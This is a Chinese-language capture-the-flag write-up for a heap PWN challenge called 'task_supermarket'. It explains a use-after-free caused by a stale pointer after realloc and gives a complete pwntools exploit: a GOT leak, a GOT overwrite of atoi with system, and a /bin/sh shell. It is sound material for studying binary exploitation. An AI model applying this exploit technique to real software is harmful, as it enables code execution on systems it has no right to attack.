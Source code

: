 # 全国大学生信息安全竞赛-PWN
### 序言
> 第一次在大赛中做出`PWN`题, 心情有点小激动.

### 程序运行
**0. 结构体**
```
struct node{
    char name[16];
    int price;
    int size;
    char* des;
}commodity[15];
```
**1.MENU**
```
1. add a commodity
2. del a commodity
3. list commodities
4. Change the price of a commodity
5. Change the description of a commodity
6. exit
```
**2. Add**
> `add` 一个 `commodity`, 输入`name, price, descrip_size`

**3. Del**
> 'del'一个`commodity`, 数组的指针会清零, `des`释放, `price`清零

**4. list**
> 列出所有内容,

**5. Change the price(没什么用)**
**6. Change the description of a commodity**
> &nbsp;&nbsp;&nbsp;&nbsp;漏洞在`realloc`, 当重新分配的`new_size < pre_size`, 返回原指针; `new_size > pre_size`释放原原指针, 重新分配内存. 但数组中的s指针并没有改成新分配的堆指针, 仍指向已释放的, 这点很重要. 此时又分配一个`node`, 恰好是这个已释放的堆, 那么上一个堆就可以编辑这个新分配的堆,　恐怖.
```c
char *realloc(ptr, newSize)
    char 	 *ptr;		/* Ptr to currently allocated block.  If
				 * it's 0, then this procedure behaves
				 * identically to malloc. */
    unsigned int newSize;	/* Size of block after it is extended */
{
    unsigned int curSize;
    char *newPtr;

    if (ptr == 0) {
	   return malloc(newSize);
    }
    curSize = Mem_Size(ptr);
    if (newSize <= curSize) {
	   return ptr;
    }
    newPtr = malloc(newSize);
    bcopy(ptr, newPtr, (int) curSize);
    free(ptr);
    return(newPtr);
}
```
### 过程
&nbsp;&nbsp;&nbsp;&nbsp;**思路**: 利用`realloc`函数产生的释放原指针, 程序没有更新指针. 实现修改`leak memory求得system真实地址`,`修改atoi的got表值为system`, 发送`/bin/sh\x00`.

**步骤一**
```python
new("bill", 100, 0x80, "A"*0x80) #　target
new("john", 200, 0x18, "A"*0x18) #
change_des("bill", 0xb0, "")     # 下面结果可以看见bill的原指针已被释放
'''
chunk      0x9dde000        0x20            (inuse)
chunk      0x9dde020        0x88            (F) FD 0xf76e5700 BK 0xf76e57b0
chunk      0x9dde0a8        0x20            (inuse)
chunk      0x9dde0c8        0x20            (inuse)
chunk      0x9dde0e8        0xb8            (inuse)
'''
new("merry", 200, 0x50, "A"*0x7) #　merry被分配到此处, bill可以编辑`merry的s`
```
**步骤二: leak memory**
```python
payload = "merry\x00" + "A"*(0x1c-6-4-4) + p32(0x50) + p32(atoi) + p16(0x59) # 泄露atoi的函数地址, 这也是为了确定远程的libc.so的版本, 然后使用libc-database找出其版本
change_des("bill", 0x80, payload)
list_all()
```
**步骤三: modify**
```
change_des("merry", 0x50, p32(system))　＃修改merry, 输入system, 相当于修改atoi的got值为system地址
```
**步骤四: get shell**
```
p.sendline("/bin/sh\x00")
```
### The Whole EXP
```python

from pwn import *

p = process("./task_supermarket")
#p = remote("117.78.43.123", 31420)
elf = ELF("./task_supermarket")
#libc = ELF("./libc.so.6")
libc = ELF("./libc.so") #本机的libc
context.log_level = 'debug'

def new(name, price, size, des):
    p.recvuntil("your choice>> ")
    p.sendline("1")
    p.recvuntil("name:")
    p.sendline(name)
    p.recvuntil("price:")
    p.sendline(str(price))
    p.recvuntil("descrip_size:")
    p.sendline(str(size))
    p.recvuntil("description:")
    p.sendline(des)

def delete(name):
    p.recvuntil("your choice>> ")
    p.send("2\n")
    p.recvuntil("name:")
    p.sendline(name)

def list_all():
    p.recvuntil("your choice>> ")
    p.send("3\n")

def change_price(name, price):
    p.recvuntil("your choice>> ")
    p.sendline("4")
    p.recvuntil("name:")
    p.sendline(name)
    p.recvuntil("or rise in:")
    p.sendline(str(price))

def change_des(name, size, des):
    p.recvuntil("your choice>> ")
    p.sendline("5")
    p.recvuntil("name:")
    p.sendline(name)
    p.recvuntil("descrip_size:")
    p.sendline(str(size))
    p.recvuntil("description:")
    p.sendline(des)

free_got = elf.got['free']
atoi = elf.got['atoi']
puts = elf.plt['puts']

gdb.attach(p)
new("bill", 100, 0x80, "A"*0x80)
new("john", 200, 0x18, "A"*0x18)
change_des("bill", 0xb0, "")
new("merry", 200, 0x50, "A"*0x7)

payload = "merry\x00" + "A"*(0x1c-6-4-4) + p32(0x50) + p32(atoi) + p16(0x59)
change_des("bill", 0x80, payload)
list_all()
p.recvuntil("merry: price.")
p.recv(16)
real_atoi = u32(p.recv(4))
system = real_atoi - (libc.symbols['atoi'] - libc.symbols['system'])

log.info("real_atoi: %s" % hex(real_atoi))
log.info("system: %s" % hex(system))
change_des("merry", 0x50, p32(system))

p.recvuntil("your choice>> ")
p.sendline("/bin/sh\x00")
p.interactive()
```

